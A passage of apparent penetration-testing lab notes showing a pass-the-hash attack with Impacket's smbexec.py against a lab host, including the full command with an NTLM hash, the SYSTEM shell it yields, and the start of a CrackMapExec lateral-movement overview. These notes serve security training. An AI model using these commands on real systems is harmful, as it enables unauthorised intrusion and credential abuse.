 ```
  -port [destination port]
                        Destination port to connect to SMB Server
  -service-name service_name
                        The name of theservice used to trigger the payload

authentication:
  -hashes LMHASH:NTHASH ←
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid
                        credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -keytab KEYTAB        Read keys for SPN from keytab file
```

_Attempt to use the captured hash to re-execute `smbexec.py` as `administrator`, confirming persistence on the target machine._

`smbexec.py administrator@10.4.28.143 -hashes aad3b435b51404eeaad3b435b51404ee:00527325548f776793aabfd5cfe39a78`:
```
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute ←
```

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Confirm the persistence by checking the user context once again._

`whoami`:
```
nt authority\system ←
```

### Windows Lateral Movement with CrackMapExec - Theory

#### CrackMapExec

CrackMapExec (CME) is a powerful open-source penetration testing tool designed for security professionals and ethical hackers.

It is used to enumerate and assess networks, particularly Windows environments, and has extensive capabilities for network reconnaissance, lateral movement, and remote exploitation.

##### CrackMapExec Use Cases

- **Network Enumeration and Reconnaissance:** CME can scan networks to identify hosts, enumerate shares, and gather other valuable information.

- **Credential Testing and Brute Forcing:** CME can test credentials against network resources, checking for weak or reused passwords. This can help penetration testers identify potential vulnerabilities.
